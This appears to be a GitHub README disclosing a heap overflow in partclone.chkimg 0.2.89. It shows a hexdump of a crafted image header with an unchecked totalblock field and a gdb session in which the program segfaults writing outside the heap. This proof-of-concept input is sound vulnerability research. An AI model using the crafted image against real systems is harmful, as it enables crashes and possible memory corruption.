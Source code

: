 # Partclone_HeapOverFlow

Partclone.chkimg that checks image has a vulnerability with openning a maliciusly craft image file.

root@ubuntu:/partclone-0.2.89# hexdump -C hack.img | more
00000000  70 61 72 74 63 6c 6f 6e  65 2d 69 6d 61 67 65 45  |partclone-imageE|
00000010  58 54 46 53 00 00 00 00  00 00 00 00 00 00 30 30  |XTFS..........00|
00000020  30 31 00 00 00 04 00 00  00 20 bf 0c 00 00 00 00  |01....... ......|
00000030  c8 2f 03 00 00 ff ff ff  ba 7a 00 00 00 00 00 00  |./.......z......|
00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|


(insufficient checking on offset 0x35 ~ 0x37 in image-header.totalblock)

root@ubuntu:/partclone-0.2.89# gdb ./partclone.chkimg

Reading symbols from ./partclone.chkimg...done.
(gdb) r -s hack.img
Starting program: partclone-0.2.89/src/partclone.chkimg -s hack.img
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
Partclone v0.2.89 http://partclone.org
Starting to check image (hack.img)
we need memory: 137438984768 bytes
image head 4160, bitmap 137438979580, crc 1028 bytes
Calculating bitmap... Please wait... image_hdr : 10000032fc8
totalblock size : 1099511836616

Program received signal SIGSEGV, Segmentation fault.
0x0804ed96 in pc_clear_bit (total=1099511836616, bitmap=0x8057d38, nr=1021504) at bitmap.h:53
53              bitmap[offset] &= ~(1UL << bit);
(gdb) x/x bitmap
0x8057d38:      0xffffffff
(gdb) p bitmap
$1 = (unsigned long *) 0x8057d38
(gdb) x/x bitmap+offset
0x8077000:      Cannot access memory at address 0x8077000		// Out of Heap memory area
(gdb) p offset
$2 = 31922
(gdb)

